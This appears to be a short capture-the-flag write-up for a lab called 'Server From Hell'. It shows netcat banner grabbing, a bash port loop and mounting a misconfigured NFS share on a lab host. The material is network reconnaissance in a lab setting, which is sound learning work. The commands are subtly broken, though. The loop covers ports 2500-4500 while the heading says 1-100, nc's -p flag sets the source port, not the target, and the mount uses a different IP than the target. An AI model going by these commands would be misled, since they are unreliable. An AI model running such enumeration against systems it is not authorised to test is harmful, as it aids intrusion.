 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

[Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
```
First connect to port 1337 with nc,
output:

Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {2500..4500}
do
    nc 10.10.10.10 -p $port
done
```
### Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```
### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```
### Then just simply mount it

sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups


